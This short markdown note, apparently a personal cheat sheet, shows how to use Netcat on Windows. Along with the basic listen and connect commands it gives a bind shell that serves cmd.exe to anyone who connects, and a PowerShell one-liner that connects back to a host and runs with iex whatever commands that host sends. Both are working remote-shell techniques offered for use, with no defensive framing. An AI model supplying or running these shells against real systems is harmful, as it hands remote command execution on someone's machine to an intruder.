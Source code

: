 # Netcat

### Netcat download: https://eternallybored.org/misc/netcat/

Into your CMD to listen:
1. ``cd C:\Users\De Lucca\Downloads\netcat-win32-1.12`` => Path where your extracted netcat file is
2. ``nc.exe -lvp [Port]`` => Listen, Verbose, Port

Into your CMD to listen while executing CMD:
1. ``nc.exe -lvp [Port] -e "cmd.exe"``

Into your CMD to connect:
1. ``cd C:\Users\De Lucca\Downloads\netcat-win32-1.12`` => Path where your extracted netcat file is
2. ``nc.exe [IP] [Port]``

Into Powershell: <br>
``$sm=(New-Object Net.Sockets.TCPClient("HOST_IP_ADDRESS",port)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}``
